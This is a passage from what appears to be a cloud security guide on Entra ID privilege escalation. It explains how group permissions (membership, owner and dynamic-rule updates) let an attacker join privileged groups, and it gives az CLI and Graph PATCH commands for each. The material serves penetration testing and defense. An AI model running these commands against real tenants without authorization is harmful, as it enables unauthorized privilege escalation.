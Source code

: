 ***

## Groups

### `microsoft.directory/groups/allProperties/update`

This permission allows to add users to privileged groups, leading to privilege escalation.

```bash
az ad group member add --group <GroupName> --member-id <UserId>
```

**Note**: This permission excludes Entra ID role-assignable groups.

### `microsoft.directory/groups/owners/update`

This permission allows to become an owner of groups. An owner of a group can control group membership and settings, potentially escalating privileges to the group.

```bash
az ad group owner add --group <GroupName> --owner-object-id <UserId>
az ad group member add --group <GroupName> --member-id <UserId>
```

**Note**: This permission excludes Entra ID role-assignable groups.

### `microsoft.directory/groups/members/update`

This permission allows to add members to a group. An attacker could add himself or malicious accounts to privileged groups can grant elevated access.

```bash
az ad group member add --group <GroupName> --member-id <UserId>
```

### `microsoft.directory/groups/dynamicMembershipRule/update`

This permission allows to update membership rule in a dynamic group. An attacker could modify dynamic rules to include himself in privileged groups without explicit addition.

```bash
groupId="<group-id>"
az rest --method PATCH \
  --uri "https://graph.microsoft.com/v1.0/groups/$groupId" \
  --headers "Content-Type=application/json" \
  --body '{
    "membershipRule": "(user.otherMails -any (_ -contains \"security\")) -and (user.userType -eq \"guest\")",
    "membershipRuleProcessingState": "On"
  }'
```

**Note**: This permission excludes Entra ID role-assignable groups.

### Dynamic Groups Privesc
